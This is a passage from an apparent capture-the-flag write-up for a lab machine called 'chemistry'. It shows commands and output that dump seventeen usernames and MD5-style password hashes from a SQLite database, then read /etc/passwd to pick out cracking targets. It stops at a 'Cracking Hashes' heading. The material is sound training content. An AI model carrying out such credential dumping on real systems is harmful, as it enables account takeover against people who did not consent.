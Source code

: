 # Inspecting SQLite Database

The app users home directory contained a database. This database contained usernames and hashes.

```
app@chemistry:~/instance$ sqlite3 database.db
sqlite3 database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
.tables
structure  user     
sqlite> select * from user; 
select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
4|robert|02fcf7cfc10adc37959fb21f06c6b467
5|jobert|3dec299e06f7ed187bac06bd3b670ab2
6|carlos|9ad48828b0955513f7cf0f7f6510c8f8
7|peter|6845c17d298d95aa942127bdad2ceb9b
8|victoria|c3601ad2286a4293868ec2a4bc606ba3
9|tania|a4aa55e816205dc0389591c9f82f43bb
10|eusebio|6cad48078d0241cca9a7b322ecd073b3
11|gelacia|4af70c80b68267012ecdac9a7e916d18
12|fabian|4e5d71f53fdd2eabdbabb233113b5dc0
13|axel|9347f9724ca083b17e39555c36fd9007
14|kristel|6896ba7b11a62cacffbdaded457c6d92
15|lewis|5f4dcc3b5aa765d61d8327deb882cf99
16|MisterX|42f749ade7f9e195bf475f37a44cafcb
17|cancan|716630fadb295da078dd3687e39c6cc4
sqlite> 
```

# Checking Local Users

To narrow down hashes of interest I checked the `/etc/passwd` file for existing users to cross reference them with the database.

```
app@chemistry:~$ cat /etc/passwd | grep sh
cat /etc/passwd | grep sh
root:x:0:0:root:/root:/bin/bash
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
rosa:x:1000:1000:rosa:/home/rosa:/bin/bash
app:x:1001:1001:,,,:/home/app:/bin/bash
app@chemistry:~$ 
```

# Cracking Hashes

